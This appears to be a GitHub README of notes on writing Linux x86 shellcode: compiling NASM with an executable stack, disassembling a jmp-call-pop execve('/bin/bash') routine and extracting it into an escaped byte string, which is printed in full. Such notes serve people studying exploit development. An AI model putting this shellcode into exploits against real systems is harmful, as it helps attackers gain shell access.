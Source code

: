 # Shellcode

## A list of linux x86 system call is stored here
### Command
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h
```

## Compile a NASM file 
### Commands
```
nasm -f elf32 -o file.o file.nasm
ld -z execstack -o file file.o
```
## Check if they are some null bytes in the shellcode
### Command
```
objdump -d execve -M intel
```
### Output
```
execve:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	eb 07                	jmp    8048089 <stage_1>

08048082 <stage_2>:
 8048082:	5b                   	pop    ebx
 8048083:	31 c0                	xor    eax,eax
 8048085:	b0 0b                	mov    al,0xb
 8048087:	cd 80                	int    0x80

08048089 <stage_1>:
 8048089:	e8 f4 ff ff ff       	call   8048082 <stage_2>

0804808e <shell>:
 804808e:	2f                   	das    
 804808f:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 8048092:	2f                   	das    
 8048093:	62 61 73             	bound  esp,QWORD PTR [ecx+0x73]
 8048096:	68                   	.byte 0x68
```

## Get a shellcode format from the objdump output
### Command
```
objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
### Output
```
"\xeb\x07\x5b\x31\xc0\xb0\x0b\xcd\x80\xe8\xf4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68"
```

## Important resssouces
* [Intel manual](https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf)